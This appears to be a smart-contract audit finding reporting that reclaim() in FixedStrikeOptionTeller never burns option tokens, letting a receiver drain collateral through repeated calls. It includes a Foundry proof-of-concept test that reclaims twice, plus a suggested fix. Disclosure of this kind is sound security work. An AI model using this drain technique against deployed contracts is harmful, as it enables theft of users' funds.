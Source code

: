stuxy

high

# reclaim() function lacks optionToken burn which let's receiver empty the FixedStrikeOptionTeller contract.

## Summary
`reclaim(FixedStrikeOptionToken optionToken_)` function lacks _optionToken_ burning which allows _receiver_ to empty _FixedStrikeOptionTeller_ contract of either _payoutToken_ or _quoteToken_.

## Vulnerability Detail
_receiver_ can call `reclaim(FixedStrikeOptionToken optionToken_)` function multiple times until the contract has supply of either _payoutToken_ or _quoteToken_ depending on _call_ value.
Whenever the contract gets funded receiver can again empty it out.

## Impact
_receiver_  can steal all the funds from the contract, by deploying different optionTokens for different  _payoutToken_ or _quoteToken_ and reclaiming them again and again.

## Code Snippet
Vulnerable Function:
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437

## Tool used
Manual Review

## PoC
Paste this function in `FixedStrikeOption.t.sol` to test. This function reclaims funds twice.
```solidity
function test_reclaim_call_exploit() public {
        // Deploy call option token
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            alice, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );
        FixedStrikeOptionToken optionTokenBob = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            bob, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens by depositing collateral (payout tokens)
        uint256 amount = 100 * 10 ** abc.decimals();
        vm.prank(alice);
        teller.create(optionToken, amount);

        vm.prank(bob);
        teller.create(optionTokenBob, amount);

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);

        // Reclaim collateral as receiver
        uint256 alicePayoutStart = abc.balanceOf(alice);
        uint256 tellerPayoutStart = abc.balanceOf(address(teller));

        vm.startPrank(alice);
        teller.reclaim(optionToken);
        teller.reclaim(optionToken);
        vm.stopPrank();
        // Check that balance updates are correct
        // - Alice receives the amount of payoutTokens.
        // - Teller pays out the amount of payoutTokens.
        assertEq(abc.balanceOf(alice), alicePayoutStart + amount*2);
        assertEq(abc.balanceOf(address(teller)), tellerPayoutStart - amount*2);
        // Note: option tokens are not burned on a reclaim, they just remain in place since they are expired
        
    }
```
## Recommendation
Burn _optionToken_ after reclaiming it. Add this line at last in the _reclaim()_ function.
```solidity
optionToken.burn(msg.sender, amount);
```